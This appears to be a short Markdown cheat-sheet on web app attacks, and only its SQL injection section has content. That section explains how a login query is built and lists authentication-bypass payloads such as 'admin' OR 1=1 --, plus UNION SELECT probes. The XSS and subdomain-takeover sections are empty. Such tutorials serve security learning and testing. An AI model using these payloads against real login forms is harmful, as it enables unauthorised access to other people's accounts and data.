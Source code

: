 # Table of Content
1. [Web App](#webapp)
- [SQL Injection](#sqlinj)
- [XSS](#xss)
- [Subdomain Takeover](#subdomain)
















<a name="webapp"></a>
# Web App 

<a name="sqlinj"></a>
## SQL Injection

### Login Form 
Normally, a POST request would takes two parameters (i.e. username and password) from the login form. Thus, the SQL command at the backend is look something like this:

```SQL
SELECT * from TABLE where USERNAME='USERNAME' AND PASSWORD = 'PASSWORD';
```
The statement above mainly ask the Database to select the user where the username and password are matched with the one we input to the login form. 

Now, if we put below payload into the username field, 

```SQL
admin' OR 1=1 --
```
the whole SQL statement would becomes this:

```SQL
SELECT * from TABLE where USERNAME='admin' OR 1=1 --AND PASSWORD='PASSWORD';
```
So, now the statement above now turns to select the user where username is admin or 1=1. Please pay attention that ```--``` means comment out the rest of the statement. Thus, it doesnt matter whether you have put in anything to the password field. Now, the database would return the whole list of user from their database. And normally, a session with the first user in the database would be created for us. If the statement above can't log you in, you may also try something like below as SQL syntax might slightly varies in different brands of SQL.

```SQL
admin' OR 1=1 #
admin" OR 1=1 #
admin" OR 1=1 --
```
If above can log you in and you want to login as other users, you may use the statement below:

```SQL
 ' UNION SELECT 1 --
```
Thus, the whole SQL statement would becomes:

```SQL
SELECT * from TABLE where USERNAME='' UNION SELECT 1 --AND PASSWORD='PASSWORD';
```


```SQL
 ' UNION SELECT 1,2 # 
 ' UNION SELECT 1,2,3 # 
```


<a name = "xss"></a>
## XSS

<a name ="subdomain"></a>
## Subdomain Takeover



